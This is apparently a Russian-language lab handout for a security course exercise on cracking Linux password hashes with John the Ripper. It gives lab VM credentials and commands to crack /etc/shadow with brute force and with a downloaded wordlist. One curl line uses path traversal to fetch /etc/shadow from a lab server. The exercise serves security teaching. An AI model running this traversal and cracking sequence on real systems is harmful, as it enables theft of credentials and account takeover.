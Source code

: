 ```yaml
---
Практическая работа:
    Название: 'Анализ информационных систем предприятия с точки зрения безопасности'
    Действие: 'Модуль Второй'
---
```

# **John**
**Время выполнения: 15 минут**

Имена пользователей и пароли:
```
Для denian
login: student 
password: 111
```
```
Для Windows
login: Admin 
password: Pa55w.rd
```
### **Практическая работа**

### **Задача 1: Установка и использование John**

Подключиться по SSH к виртуальной машине gate

Получите права супер пользователя.

```
student@debian:~$ su -
```
```
< Введите пароль пользователя student >
```

Создать пользователя с логином demouser и паролем 111

Получите права супер пользователя.

```
student@debian:~$ su -
```
```
< Введите пароль пользователя student >
```


```
apt install john
apt install wget
apt install curl
```

Тест
```
john --test
```

Поиск паролей перебором
```
john --format=crypt /etc/shadow
```
Поиск паролей по словарю


Скачиваем словарь паролей из интернета
```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```
Запускаем перебор паролей
```
john --wordlist=/root/10-million-password-list-top-1000000.txt --format=crypt /etc/shadow
```

Скачаем файл паролей с server
```
curl --path-as-is http://192.168.10.10/../../../etc/shadow > shadow.txt
```
Запускаем перебор паролей
```
john --wordlist=/root/10-million-password-list-top-1000000.txt --format=crypt shadow.txt
```

